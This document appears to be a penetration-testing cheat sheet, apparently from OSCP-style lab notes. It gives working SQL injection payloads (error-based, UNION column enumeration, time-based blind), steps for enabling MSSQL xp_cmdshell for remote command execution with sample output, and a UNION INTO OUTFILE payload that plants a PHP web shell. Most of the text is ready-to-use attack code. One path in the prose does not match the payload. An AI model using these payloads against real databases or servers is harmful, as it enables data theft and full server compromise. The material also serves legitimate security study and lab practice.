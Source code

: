 
##### Note: make sure to check for error messages.
#### Connecting to MySQL
```
mysql -h TARGET_IP -u USERNAME -p   // Remote authentication with username and password
```

```
SELECT @@VERSION;               // Print the SQL version
SELECT system_user();           // Print the current user. Note: this is the database-specific user, it may not be the user of the same name in the system.

SHOW databases;
USE DATABASE_NAME;
SHOW tables;
```


#### MSSQL basics
```
impacket-mssqlclient USER:PASSWORD@IP_ADDRESS -windows-auth
SELECT @@VERSION;

SELECT name FROM master.dbo.sysdatabases               // Show databases
SELECT * FROM TARGET_DB.information_schema.tables;     // Show tables


```


#### Enabled error messages
```
' or 1=1 in (select @@version) -- -                 
' or 1=1 in (SELECT password FROM users) -- -         // might show the passwords in the error message.
```


#### MySQL UNION injection
First, use these payloads ascending until an error occurs:
```
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
The last number before the error is the amount of columns in the request. Then, use this payload with the appropriate amount of columns:
```
' UNION SELECT @@version -- -
' UNION SELECT null, @@version -- -
...
' UNION SELECT null, null, database(), user(), @@version  -- -
```
If the payload works, it's time to read the database tables:
```
' union select table_name from information_schema.columns where table_schema=database() -- -
' union select null, table_name from information_schema.columns where table_schema=database() -- -
...
' union select null, null, null, null, table_name from information_schema.columns where table_schema=database() -- -
// options: table_name, column_name, table_schema,
```

If a table is found:
```
' UNION SELECT null, COLUMN_NAME FROM TABLE_NAME -- 
```

#### Blind SQLI
```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- -
```



#### MSSQL Code Execution
To get RCE in `MSSQL` using the `xp_cmdshell`, a few conditions need to be met:
- First, *show advanced options* needs to be set to `1`, and a `RECONFIGURE;` command needs to be issued.
- Then, *xp_cmdshell* needs to be set to `1`, and a `RECONFIGURE;` command needs to be issued.
From this point, the `xp_cmdshell` command is unlocked and can be used to get RCE.

##### RCE with credentials
```
impacket-mssqlclient USERNAME:PASSWORD@IP_ADDRESS -windows-auth
// MSSQL
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'COMMAND';
```

###### Example output
```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';

```


#### MySQL Code Execution
MySQL doesn't have any direct functions for running commands, but the `SELECT INTO_OUTFILE` functionality can be abused.
Note: for this to work, the user running the database needs to have `write` permissions where the `OUTFILE` is stored.

Example payload (might produce an error due to the return type, won't affect the result):
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" -- -
```
This will write `<?php system($_GET['cmd']);>` into `/var/www/html/tmp/webshell.php`. 
